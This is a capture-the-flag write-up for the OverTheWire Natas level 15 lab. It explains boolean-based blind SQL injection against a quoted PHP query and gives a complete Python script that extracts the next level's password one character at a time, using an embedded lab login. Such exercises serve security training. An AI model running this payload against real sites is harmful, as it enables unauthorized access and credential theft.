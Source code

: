 # Analyze
It's a simple SQL Injection as we examing the source code:

```php
$query = "SELECT * from users where username=\"" . $_REQUEST["username"] . "\"";
```
And since we can only receive True/False from the server, we need `Boolean-based SQL Injection`.

So we need a SQL sentence like below:
```sql
SELECT * from users where username="natas16" and password=...
```
We will find out the password one digit at a time, by using:
- `SUBSTR()` to choose a digit at the specified position
- `ASCII()` to get the ascii-code of that digit
- `<=` to narrow the scope.

Here's the pay load below:
```py
payload = f'natas16" and {this} <= ASCII(SUBSTRING(password, {i}, 1)) -- '
```
Where `'this'` is the ascii code number to try this time, `'i'` is the position of password that will be tested.

After that, we just needs to find whether there's `"This user exists."` in the response content, and determine whether our a ssumptions (`'this'`) works.

# Solution
The complete Python code is as below. _\* Please change the password for natas15 if a long time has passed._
```py
import requests

def test(i):
    url = "http://natas15.natas.labs.overthewire.org/index.php"

    l = 0
    r = 128

    # [l, r)
    while r - l > 1:
        this = (r+l)//2
        payload = f'natas16" and {this} <= ASCII(SUBSTRING(password, {i}, 1)) -- '
        res = requests.post(url, {"username": payload}, auth=('natas15', 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'))
        res = res.text.find('This user exists.') != -1
        if res:
            # target >= this
            l = this
        else:
            r = this

    return l

flag=""
for i in range(1, 64):
    flag += chr(test(i))
    print(flag)
```
